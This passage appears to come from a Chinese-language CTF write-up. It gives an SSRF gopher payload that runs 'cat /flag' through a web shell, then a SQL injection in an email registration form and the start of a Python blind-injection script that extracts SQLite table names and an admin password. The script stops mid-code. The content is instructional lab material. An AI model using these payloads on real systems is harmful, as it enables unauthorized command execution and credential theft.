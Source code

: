 最终payload:

http://124.126.19.106:51252/xinan/public/55ceedfbc97b0a81277a55506c34af36.php?url=gopher://127.0.0.1:80/_GET%20/xinan/public/shell.php%253Fcmd=cat%2B/flag


## email
1.先用邮箱注册一个账号，注册时email有注入，输入123@qq.com'报错，payload为post： username=dwedwqewqddwqwdwqdwe&mail=123@qq.com' or '1'='1&passwd=123，提示User or Mail Already Registered

2.盲注，writeup用的sqlmap我没跑出来，并且writeup有提示是sqlite数据库，所以一开始的sql没爆出来表名

```
import string
import random
import requests

if __name__ == "__main__":

    allchars = string.ascii_letters + string.ascii_uppercase + string.digits + '$'
    passwd = '123'
    #爆破表,sqlite数据库
    mail = '123@qq.com' + "' or substr((select name from sqlite_master where type='table' limit 1,1),{},1)='{}"
    # 爆破列，sqlite3:PRAGMA table_info('users');以换行形式输出
    # 爆破密码，h4ck4fun
    # mail = '123@qq.com' + "' or substr((select passwd from users where username='admin'),{},1)='{}"


    password = ''
    cookies = 'PHPSESSID=obpfiog3p0en2ruhieokft5la4; ScanLoginKey=5eb502407a7a2; username=admin'
    cookies2 = dict(map(lambda x:x.split('='),cookies.split(";")))
    # print(cookies2)
    for i in range(1,50):
        for c in allchars:
            ran_str = ''.join(random.sample(string.ascii_letters + string.digits, 12))
            this_payload = {
                'username': ran_str,
                'passwd': passwd,
